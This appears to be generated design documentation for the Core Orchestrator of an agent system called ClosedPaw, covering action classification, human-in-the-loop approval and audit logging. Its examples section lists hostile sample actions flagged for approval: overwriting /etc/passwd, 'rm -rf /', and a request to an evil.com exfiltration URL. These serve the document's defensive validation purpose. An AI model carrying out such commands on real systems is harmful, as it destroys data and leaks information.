# Core Orchestrator

<cite>
**Referenced Files in This Document**
- [orchestrator.py](file://backend/app/core/orchestrator.py)
- [security.py](file://backend/app/core/security.py)
- [main.py](file://backend/app/main.py)
- [agent_manager.py](file://backend/app/core/agent_manager.py)
- [providers.py](file://backend/app/core/providers.py)
- [channels.py](file://backend/app/core/channels.py)
- [__init__.py](file://backend/app/core/__init__.py)
- [README.md](file://README.md)
- [test_security.py](file://backend/tests/test_security.py)
- [skill.py](file://skills/filesystem/skill.py)
</cite>

## Update Summary
**Changes Made**
- Enhanced action type mappings in validate_action method with new action types: file_write, file_delete, command_exec, and network_request
- Updated security level assessment logic to handle new action categories
- Improved action validation workflow with comprehensive type mapping support
- Enhanced documentation to reflect expanded action tracking capabilities

## Table of Contents
1. [Introduction](#introduction)
2. [Project Structure](#project-structure)
3. [Core Components](#core-components)
4. [Architecture Overview](#architecture-overview)
5. [Detailed Component Analysis](#detailed-component-analysis)
6. [Dependency Analysis](#dependency-analysis)
7. [Performance Considerations](#performance-considerations)
8. [Troubleshooting Guide](#troubleshooting-guide)
9. [Conclusion](#conclusion)
10. [Appendices](#appendices)

## Introduction
This document describes the Core Orchestrator component that serves as the central coordination hub for the ClosedPaw system. It manages all system operations with a Zero-Trust security model, including action lifecycle management from PENDING to COMPLETED, security level classification (LOW, MEDIUM, HIGH, CRITICAL), and comprehensive audit logging. The orchestrator implements a singleton pattern via a factory function, initializes the LLM gateway, Human-in-the-Loop (HITL) interface, and skill loaders, and coordinates execution across supported action types (CHAT, SKILL_EXECUTION, MODEL_SWITCH). It also documents error handling strategies, graceful shutdown procedures, security configuration options, rate limiting, and timeout settings.

**Updated** Enhanced with expanded action type mappings including file_write, file_delete, command_exec, and network_request for improved action tracking and security level assessment.

## Project Structure
The Core Orchestrator resides in the backend application's core module alongside security, agent management, provider gateways, and channel integrations. The orchestrator integrates tightly with the FastAPI application lifecycle and exposes REST endpoints for action submission, approval, status monitoring, and audit logging.



**Diagram sources**
- [main.py](file://backend/app/main.py#L59-L70)
- [__init__.py](file://backend/app/core/__init__.py#L5-L18)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L87-L130)

**Section sources**
- [README.md](file://README.md#L75-L96)
- [__init__.py](file://backend/app/core/__init__.py#L1-L18)

## Core Components
- CoreOrchestrator: Central controller managing actions, security levels, audit logging, and execution pipeline.
- ActionType: Enumerates supported action categories (CHAT, SKILL_EXECUTION, MODEL_SWITCH, API_CALL, FILE_OPERATION, CONFIG_CHANGE).
- ActionStatus: Enumerates lifecycle states (PENDING, APPROVED, REJECTED, EXECUTING, COMPLETED, FAILED).
- SecurityLevel: Classifies risk (LOW, MEDIUM, HIGH, CRITICAL) with corresponding approval and logging requirements.
- AuditLogEntry: Structured audit trail entries capturing action metadata and outcomes.
- SystemAction: Runtime representation of an action with lifecycle tracking and result/error fields.
- ActionValidationResult: New validation result class for structured action validation responses.
- Singleton pattern: get_orchestrator() ensures a single orchestrator instance across the application.

Key orchestration responsibilities:
- Action submission with automatic security classification.
- Human-in-the-Loop approval for HIGH and CRITICAL actions.
- Execution pipeline for different action types with timeouts and error handling.
- Audit logging for all actions and outcomes.
- Graceful shutdown with pending action completion checks.
- **Enhanced**: Expanded action validation with comprehensive type mapping support including file_write, file_delete, command_exec, and network_request.

**Section sources**
- [orchestrator.py](file://backend/app/core/orchestrator.py#L31-L85)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L87-L130)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L169-L224)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L477-L486)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L86-L92)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L259-L297)

## Architecture Overview
The Core Orchestrator sits at the center of the system, coordinating:
- LLM gateway initialization and model switching.
- Human-in-the-Loop approval workflows for risky actions.
- Skill execution delegation to the Agent Manager with sandboxed containers.
- Audit logging and security validation.



**Diagram sources**
- [main.py](file://backend/app/main.py#L131-L182)
- [main.py](file://backend/app/main.py#L265-L299)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L169-L224)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L251-L302)
- [agent_manager.py](file://backend/app/core/agent_manager.py#L65-L98)
- [providers.py](file://backend/app/core/providers.py#L418-L483)
- [security.py](file://backend/app/core/security.py#L35-L181)

## Detailed Component Analysis

### CoreOrchestrator Class
The CoreOrchestrator is the central controller responsible for:
- Initialization of LLM gateway, HITL interface, data vault, and skills.
- Action lifecycle management with automatic security classification.
- Execution pipeline for CHAT, SKILL_EXECUTION, and MODEL_SWITCH actions.
- Audit logging and status tracking.
- Graceful shutdown with pending action completion checks.
- **Enhanced**: Expanded action validation with comprehensive type mapping support including file_write, file_delete, command_exec, and network_request.



**Diagram sources**
- [orchestrator.py](file://backend/app/core/orchestrator.py#L87-L486)

**Section sources**
- [orchestrator.py](file://backend/app/core/orchestrator.py#L87-L130)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L131-L167)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L169-L224)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L225-L250)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L251-L302)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L303-L375)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L376-L428)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L429-L450)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L451-L475)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L477-L486)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L86-L92)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L259-L297)

### Enhanced Action Validation System
**Enhanced** The ActionValidationResult class and validate_action method provide structured validation responses for Human-in-the-Loop workflows with expanded action type support:

- ActionValidationResult: Provides structured validation outcomes with approval requirements and security levels.
- validate_action: Maps action types to ActionType enums, determines security levels, and decides approval requirements.
- **Expanded Type Mapping**: Supports comprehensive action formats including file_write, file_delete, command_exec, and network_request.
- Automated approval decisions based on security level thresholds.



**Diagram sources**
- [orchestrator.py](file://backend/app/core/orchestrator.py#L259-L297)

**Section sources**
- [orchestrator.py](file://backend/app/core/orchestrator.py#L86-L92)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L259-L297)
- [test_security.py](file://backend/tests/test_security.py#L159-L189)

### Enhanced Action Type Mapping
**New** The validate_action method now includes comprehensive action type mappings for improved action tracking and security assessment:

- **File Operations**: "file_write" → FILE_OPERATION, "file_delete" → FILE_OPERATION
- **Command Execution**: "command_exec" → SKILL_EXECUTION  
- **Network Requests**: "network_request" → API_CALL
- **Legacy Support**: Maintains backward compatibility with "read", "write", "delete" mappings
- **Security Classification**: Each mapped type inherits appropriate security levels based on action characteristics



**Diagram sources**
- [orchestrator.py](file://backend/app/core/orchestrator.py#L271-L286)

**Section sources**
- [orchestrator.py](file://backend/app/core/orchestrator.py#L271-L286)
- [test_security.py](file://backend/tests/test_security.py#L164-L168)

### Action Submission Workflow
The submit_action method:
- Determines security level automatically if not provided.
- Creates a SystemAction and stores it.
- Logs an initial audit entry with action metadata.
- For HIGH/CRITICAL actions, returns PENDING for HITL approval.
- For LOW/MEDIUM actions, auto-approves and schedules execution.



**Diagram sources**
- [orchestrator.py](file://backend/app/core/orchestrator.py#L169-L224)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L225-L250)

**Section sources**
- [orchestrator.py](file://backend/app/core/orchestrator.py#L169-L224)

### Automatic Security Level Determination
Security classification is based on action type and parameters:
- CONFIG_CHANGE: CRITICAL.
- FILE_OPERATION: HIGH for destructive operations (delete, write, modify), otherwise MEDIUM.
- SKILL_EXECUTION: HIGH for system-related skills, otherwise MEDIUM.
- CHAT: LOW.
- Other actions default to MEDIUM.



**Diagram sources**
- [orchestrator.py](file://backend/app/core/orchestrator.py#L225-L250)

**Section sources**
- [orchestrator.py](file://backend/app/core/orchestrator.py#L225-L250)

### Human-in-the-Loop Approval Process
High-risk actions are placed in PENDING until approved. The approve_action method:
- Validates the action exists and is PENDING.
- Updates status to APPROVED or REJECTED.
- Logs audit entries with approver identity.
- Schedules execution for approved actions.



**Diagram sources**
- [main.py](file://backend/app/main.py#L265-L299)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L376-L428)

**Section sources**
- [orchestrator.py](file://backend/app/core/orchestrator.py#L376-L428)
- [main.py](file://backend/app/main.py#L265-L299)

### Execution Pipeline for Different Action Types
- CHAT: Sends prompt to local Ollama gateway with timeouts and error handling.
- SKILL_EXECUTION: Delegates to Agent Manager with sandboxed execution (returns delegation notice).
- MODEL_SWITCH: Verifies model availability via Ollama and returns success or error.



**Diagram sources**
- [orchestrator.py](file://backend/app/core/orchestrator.py#L251-L302)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L303-L332)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L333-L350)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L352-L375)

**Section sources**
- [orchestrator.py](file://backend/app/core/orchestrator.py#L251-L302)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L303-L375)

### Audit Logging Implementation
All actions are logged with structured entries containing timestamps, action identifiers, types, statuses, outcomes, and details. Audit logs are retained in-memory and can be queried via API endpoints.



**Diagram sources**
- [orchestrator.py](file://backend/app/core/orchestrator.py#L429-L450)

**Section sources**
- [orchestrator.py](file://backend/app/core/orchestrator.py#L429-L450)
- [main.py](file://backend/app/main.py#L322-L340)

### Singleton Pattern and Initialization
The orchestrator uses a singleton pattern via get_orchestrator(), ensuring a single instance across the application. Initialization includes:
- LLM gateway setup (local Ollama).
- HITL interface initialization placeholder.
- Data vault initialization placeholder.
- Dynamic skill loading.



**Diagram sources**
- [main.py](file://backend/app/main.py#L59-L70)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L112-L129)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L131-L167)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L481-L486)

**Section sources**
- [orchestrator.py](file://backend/app/core/orchestrator.py#L477-L486)
- [main.py](file://backend/app/main.py#L59-L70)

### Security Configuration Options, Rate Limiting, and Timeouts
Security configuration includes:
- require_hitl_for_critical: Enforces HITL for CRITICAL actions.
- log_all_actions: Controls audit logging.
- max_action_timeout: Default timeout for actions.
- rate_limit_per_minute: Requests per minute threshold.

Rate limiting is integrated into the security module's input validation and can escalate threats to CRITICAL level when exceeded.

**Section sources**
- [orchestrator.py](file://backend/app/core/orchestrator.py#L102-L108)
- [security.py](file://backend/app/core/security.py#L290-L318)
- [security.py](file://backend/app/core/security.py#L163-L180)

### Practical Examples

- Creating a CHAT action:
  - Submit a CHAT action with parameters including message and model.
  - For LOW security, it auto-executes and returns a response.
  - For HIGH/CRITICAL, it returns PENDING and requires approval.

- **Enhanced** Validating actions for Human-in-the-Loop with expanded type support:
  - Use validate_action() to determine approval requirements for new action types.
  - Example dangerous actions: {"type": "file_write", "path": "/etc/passwd", "content": "hacked"} requires approval.
  - Command execution: {"type": "command_exec", "command": "rm -rf /"} requires approval.
  - Network requests: {"type": "network_request", "url": "http://evil.com/exfil"} requires approval.
  - Safe actions: {"type": "read", "path": "/tmp/data.txt"} auto-approved.

- Approving a PENDING action:
  - Retrieve pending actions via API.
  - Approve or reject using the approval endpoint.
  - Approved actions are scheduled for execution.

- Audit log analysis:
  - Query audit logs via API endpoint.
  - Inspect timestamps, action types, statuses, outcomes, and details.

**Section sources**
- [main.py](file://backend/app/main.py#L131-L182)
